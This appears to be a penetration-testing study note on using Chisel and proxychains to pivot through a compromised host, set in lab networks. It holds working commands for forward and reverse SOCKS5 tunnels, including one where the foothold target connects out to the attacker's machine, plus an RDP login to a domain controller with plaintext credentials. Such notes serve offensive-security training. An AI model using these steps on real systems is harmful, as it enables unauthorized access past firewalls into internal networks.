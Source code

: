 ```yaml
---
description: >-
  a TCP/UDP-based tunneling tool written in Go that uses HTTP to transport data
  that is secured using SSH
---
```


# SOCKS5 Tunneling with Chisel

`Chisel` can create a client-server tunnel connection in a firewall restricted environment.

## Chisel Setup

**Transferring Chisel Binary to Pivot Host**

```shell-session
scp chisel ubuntu@10.129.202.64:~/
```

**Running the Chisel Server on the Pivot Host**

```shell-session
ubuntu@WEB01:~$ ./chisel server -v -p 1234 --socks5
```

* Listen ot incomming connections on port `1234`
* \--socks5 specify to use `SOCKS5`

**Connecting to the Chisel Server**

```shell-session
./chisel client -v 10.129.202.64:1234 socks

2022/05/05 14:21:18 client: Connecting to ws://10.129.202.64:1234
2022/05/05 14:21:18 client: tun: proxy#127.0.0.1:1080=>socks: Listening
2022/05/05 14:21:18 client: tun: Bound proxies
2022/05/05 14:21:19 client: Handshaking...
2022/05/05 14:21:19 client: Sending config
2022/05/05 14:21:19 client: Connected (Latency 120.170822ms)
2022/05/05 14:21:19 client: tun: SSH connected
```

Modify our proxychains.conf file located at `/etc/proxychains.conf` and add `1080` to use proxychains to pivot using the tunnel between port 1080 and SSH tunnel.

**Editing proxychains.conf**

```shell-session
tail -n3 /etc/proxychains.conf

# defaults set to "tor"
# socks4 	127.0.0.1 9050
socks5 127.0.0.1 1080
```

Now we can use service like RDP to connect to the host in the internal network using proxychains through tunnel.

**Pivoting to the DC**

```shell-session
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

## Chisel Reverse Setup

There might be some scenario where the firewall restricts any inbound connection to the compromised/foothold target. We can use --reverse flag to run the server on the attack host instead and the foothold target runs chisel with R:socks.

**Starting the Chisel Server on our Attack Host**

```shell-session
sudo ./chisel server --reverse -v -p 1234 --socks5
```

**Connecting the Chisel Client to our Attack Host**

```shell-session
./chisel client -v 10.10.14.17:1234 R:socks
```

**Editing & Confirming proxychains.conf**

```shell-session
tail -f /etc/proxychains4.conf 

[ProxyList]
# add proxy here ...
# socks4    127.0.0.1 9050
socks5 127.0.0.1 1080 
```

if you get the following error:

```
./chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.32' not found (required by ./chisel)
./chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34' not found (required by ./chisel)
```

Then try to build chisel with static library.

```go
go build --ldflags '-linkmode external -extldflags "-static"'
```

